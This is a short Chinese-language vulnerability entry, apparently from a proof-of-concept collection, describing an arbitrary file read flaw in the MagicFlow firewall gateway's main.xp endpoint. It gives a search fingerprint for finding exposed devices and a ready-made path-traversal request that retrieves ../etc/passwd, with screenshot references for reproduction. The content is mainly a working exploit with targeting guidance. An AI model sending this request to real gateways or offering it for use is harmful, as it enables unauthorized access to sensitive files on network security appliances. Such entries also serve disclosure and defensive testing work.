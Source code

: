 # MagicFlow 防火墙网关 main.xp 任意文件读取漏洞

## 漏洞描述

MagicFlow 防火墙网关 main.xp 存在任意文件读取漏洞，攻击者通过构造特定的Url获取敏感文件

## 漏洞影响

```
MagicFlow 防火墙网关
```

## 网络测绘

```
app="MSA/1.0"
```

## 漏洞复现

登录页面如下

![](images/202202162301720.png)

构造POC

```plain
/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../etc/passwd
```

![](images/202202162301323.png)